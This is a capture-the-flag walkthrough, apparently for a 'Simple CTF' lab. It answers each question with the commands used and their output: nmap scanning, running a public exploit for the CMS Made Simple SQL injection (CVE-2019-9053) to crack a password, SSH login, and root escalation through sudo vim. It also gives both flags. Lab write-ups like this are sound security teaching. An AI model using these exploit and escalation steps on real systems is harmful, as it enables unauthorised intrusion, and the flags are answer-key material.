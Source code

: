 # SimpleCTF

## #1 How many services are running under port 1000?
```
nmap <ip>
21/tcp   closed ftp
80/tcp   closed http
2222/tcp closed EtherNetIP-1
```
2
## #2 What is running on the higher port?
```
nmap -p2222 -sV -sC <ip>

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
SSH

## #3 What's the CVE you're using against the application?
CMS Made Simple version 2.2.8
CVE-2019-9053

## #4 To what kind of vulnerability is the application vulnerable?
SQLi

## #5 What's the password?
searchsploit cms made simple
searchsploit -m php/webapps/46635.py
python 46635.py -u http:// /simple -c -w /opt/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret


## #6 Where can you login with the details obtained?

ssh mitch@10.10.209.209 -p 2222


## #7 What's the user flag?
G00d j0b, keep up!



## #8 Is there any other user in the home directory? What's its name?

python -c "import pty; pty.spawn('/bin/bash')" 

cd
cd ..
ls
mitch  sunbath

## #9 What can you leverage to spawn a privileged shell?

sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

sudo vim -c ':!/bin/sh'
python -c "import pty; pty.spawn('/bin/bash')"

## #10 What's the root flag?
W3ll d0n3. You made it!